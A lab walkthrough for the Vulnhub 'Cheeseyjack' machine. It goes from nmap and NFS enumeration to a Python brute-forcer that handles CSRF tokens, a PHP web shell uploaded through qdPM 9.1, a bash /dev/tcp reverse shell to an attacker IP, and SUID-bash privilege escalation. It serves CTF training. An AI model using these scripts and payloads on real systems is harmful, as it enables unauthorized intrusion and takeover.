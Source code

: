 ## Cheesey: Cheeseyjack Vulnhub walkthrough

Skills:

- Web Enumeration
- NFS Enumeration
- Creating a custom dictionary with cewl
- Login Panel Brute Force [Python Scripting]
- Abusing qdPM 9.1 (PHP file upload) [RCE]
- Abusing sudoers privilege [Privilege Escalation]

### The walkthrough

We start with the port recognition phase using the tool `nmap`. We use the `-p-` option to encompass the entire range of ports, which is a total of 65535. We also use `--open` to list only the open ports, `-sS` for a stealthy and fast scanning mode, and `--min-rate 5000` to speed up the scan. We use `-vvv` to display each detected port on the console. The `-n` parameter is used to avoid DNS resolution, and then we use `-Pn` to instruct Nmap to ignore host discovery and treat all targets as if they were online. I perform this type of scan because we are in a controlled environment and need speed when resolving the machines.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n ipvictim
```

Now that we know the open ports on the victim machine, we will apply a more thorough scan with Nmap. Therefore, we will use the `-sCV` parameter to launch a set of basic reconnaissance scripts and detect the version and service running on each of the ports.

```bash
nmap -sCV -p22,80,111,139,445,2049,33060,33927,35597,43653,52975 ipvictim
```

Since port 80 is open, we assume that it has a web page. Let's use the tool `whatweb` to show us if it has a content management system and possible technologies running on the web server.

```bash
whatweb http://ipvictim
```

Since we don't see anything relevant, let's check port 111, which has the `rpcbind` service. We will use HackTricks to check how we can audit this port/service.

As we have port 2049 open, let's review the HackTricks link "2049 - Pentesting nfs service".

With the tool `showmount`, we can see if there are shared folders available on the victim machine.

```bash
showmount -e ipvictim
```

We see the `/home/ch33s3m4n` directory, and `ch33s3m4n` could be a valid user at the system level, so we could try to mount that directory on our computer. We create a directory with `mkdir /mnt/mounted` and follow the HackTricks example:

```bash
mount -t nfs ipvictim:/home/ch33s3m4n /mnt/mounted
```

We enter the `/mnt/mounted` directory and execute the following command to see the resources:

```bash
find . 2>/dev/null
```

We see that in the user's Downloads folder, there is a compressed file called `qdPM_9.1.zip` (qdPM is a free web-based project management tool), so we can deduce that the user could have installed that package on the system. To confirm that qdPM is installed on the system, we can use `gobuster` to apply brute-force recognition and see if we detect directories that match that tool.

```bash
gobuster dir -u http://ipvictim -w /usr/share/seclists/Discovery/Web-Content/directory-list-

2.3-medium.txt
```

We see the `/project_management` directory, so let's check that directory in the browser:

We see an authentication panel and also the qdPM 9.1 version. Let's try possible exploits with `searchsploit`:

```bash
searchsploit qdpm
```

We see a remote code execution exploit, but these exploits require credentials, and at the moment, we only have a possible username `ch33s3m4n`. So what we can try to do is gain access with this user through brute force. We can create a dictionary with `cewl` that creates a small dictionary using the words on the victim's website by running:

```bash
cewl http://ipvictim/ -w passwd.txt
cewl http://ipvictim/project_management/ >> passwd.txt
```

To automate the login by brute force with the newly created passwords and the user `ch33s3m4n`, we need to see what data is being sent via POST, and for this, we will use BURP SUITE.

We can see that there are several data points, and we need to be careful with `login[_csrf_token]=f51dfb2cf89888521bfe0faf66fddcae`, which is probably a dynamic string that changes with each request made. If we reuse the same token for all requests, it may not work, so it is better to generate a new token for each request, making our brute force authentication successful.

Knowing this, we will create our own Python script that automates brute force by incorporating the CSRF token for each request. Here you can see the complete explanation of the script.

```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
import re
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Global variables
login_url = "http://ipvictim/project_management/index.php/login"

def makeBruteForce():
    f = open("passwd.txt", "r")
    p1 = log.progress("Brute Force")
    p1.status("Starting Brute Force Attack")
    time.sleep(2)
    counter = 1
    for passwd in f.readlines():
        passwd = passwd.strip()
        p1.status("Trying Password [%d/148]: %s" % (counter, passwd))
        s = requests.session()
        r = s.get(login_url)
        token = re.findall(r'_csrf_token*]" value="(.*?)"', r.text)[0]
        data_post = {
            'login[_csrf_token]': token,
            'login[email]': 'ch33s3m4n@cheeseyjack.local',
            'login[password]': passwd,
            'http_referer': 'http://ipvictim/project_management/'
        }
        r = s.post(login_url, data=data_post)
        if "No match" not in r.text:
            p1.success("The password is %s" % passwd)
            sys.exit(0)
        counter += 1

if __name__ == '__main__':
    makeBruteForce()
```

After running the script, we can see that it finds a valid password. So, let's try it on the website.

We have successfully logged in and now we will check if there is an option to upload files.

Indeed, there is an option, so we will try to upload a `cmd.php` file, but first we need to create this file:

```php
<?php
   echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

With this script, we can control the command we want to execute.

The website did not put any restrictions on us, so now we need to know in which directory the file was uploaded. To do this, we will use gobuster again:

```
gobuster dir -u http://ipvictim/project_management -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

Now that we know the directory, let's go to the website and try `cmd=whoami` to verify that our script is running:

```
http://ipvictim/project_management/uploads/attachments/cmd.php?cmd=whoami
```

As we can see, our script is working. Now we can execute a reverse shell to gain access to the victim machine. To do this, we need to listen on port 443:

```
nc -nlvp 443
```

And in the browser, we add the reverse shell to the URL:

```
bash -c "bash -i >& /dev/tcp/attackerip/443 0>&1"
http://ipvictim/project_management/uploads/attachments/cmd.php?cmd=bash -c "bash -i >%26/dev/tcp/attackerip/443 0>%261"
```

Now that we have gained access to the machine, we apply a tty treatment for better console handling:

```
script /dev/null -c bash (press

 enter)
Ctrl + Z (press enter)
stty raw -echo; fg (press enter)
reset xterm (press enter)
export TERM=xterm (press enter)
export SHELL=/bin/bash (press enter)
stty rows 61 columns 186 (press enter)
```

Now it's time to escalate privileges.

We go to the home directory and see two users, the one we already knew existed and another one called "crab". We enter the crab user's directory and analyze what it has.

We see the file "todo.txt" and it gives us information about an SSH key backup in `/var/backups`, so we proceed to go to that directory to see what we find.

Indeed, we have a private key which we could use to connect as crab:

```
ssh -i key.bak crab@localhost
```

We have successfully logged in, we check what privileges the user has and we see that with `sudo -l` we have a root privilege which allows us to execute any binary in the crab user's folder with root permissions.

So, if we create a file in the folder `/home/crab/.bin/`:

```
touch a
```

Give it execution permissions:

```
chmod +x a
```

Add a command to the file:

```bash
#!/bin/bash

chmod u+s /bin/bash
```

By running the file with `sudo /home/crab/.bin/a`, we have given SUID permissions to bash and the owner is root. So, if we run `bash -p` it will grant us temporary access to the bash as the root owner, and we will have access to the root folder where we can see the flag in `root.txt`.
